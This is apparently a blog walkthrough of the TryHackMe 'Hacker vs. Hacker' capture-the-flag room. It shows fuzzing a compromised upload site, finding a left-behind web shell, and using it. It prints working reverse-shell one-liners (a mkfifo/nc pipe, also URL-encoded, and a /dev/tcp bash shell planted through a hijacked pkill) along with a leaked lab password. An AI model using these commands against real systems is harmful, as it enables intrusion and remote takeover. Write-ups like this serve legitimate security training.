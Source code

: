 ```yaml
---
layout: post
title: Walkthrough - Hacker vs. Hacker
published: true
---
```


Tags: Web Foothold, Enumeration.
Description: Someone has compromised this server already! Can you get in and evade their countermeasures?
Difficulty: Easy
URL: [https://tryhackme.com/room/hackervshacker](https://tryhackme.com/room/hackervshacker)

* * *

## Notes

> The server of this recruitment company appears to have been hacked, and the hacker has defeated all attempts by the admins to fix the machine. They can't shut it down (they'd lose SEO!) so maybe you can help?

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61
```

Port 80 has a website and the upload form has been hacked.

Caputuring in burposuite we see the hacker left behind some code for us

```
<!-- seriously, dumb stuff:
$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);
if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
-->
```

So we cant upload a shell, we cant access cvs. So maybe we can find the shell the hacker left over... We can use `fuff` which is a super easy to use fuzzer.

- `ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.97/cvs/FUZZ.pdf.php`

Here we find shell. Lets check that out on the site. All we have is BOOM. We can use fuzz some more to extrapolate some more information about this php.

- `ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.97/cvs/shell.pdf.php?FUZZ=id -fs 18` this command will exclude all results with 18 characters. And here we find `cmd` is the variable we are looking for.

Capture the request in burpsuite and send it to the repeater.

```
GET /cvs/shell.pdf.php?cmd=id HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Since this is executing commands and sending us our ID we can edit this in order to send us a reverse shell. Setup netcat listener and lets try.

- use `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f` as the variables parameter and encode it as url to recieve reverse shell

```
GET /cvs/shell.pdf.php?cmd=%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%32%2e%31%32%37%2e%32%32%35%20%36%36%36%36%20%3e%2f%74%6d%70%2f%66 HTTP/1.1
Host: 10.10.10.97
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

* * * 

## user.txt?

![](/assets/hackervshacker.png)

* * * 

## root.txt?

everytime we try to upgrade the shell we get noped out of it. kind of hilarious. hmm

```
cat /home/lachlan/.bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

We can login via ssh using these creds. But we keep getting kicked. 

- `cat /etc/cron.d/persistence`

root is running crontab that is executing pkill, we can use this to send us another revshell as root. quickly logging into ssh and executing the following command gives us root shell.

`echo "bash -c 'bash -i >& /dev/tcp/10.2.127.225/6667 0>&1'" > bin/pkill ; chmod  +x bin/pkill`

* * * 

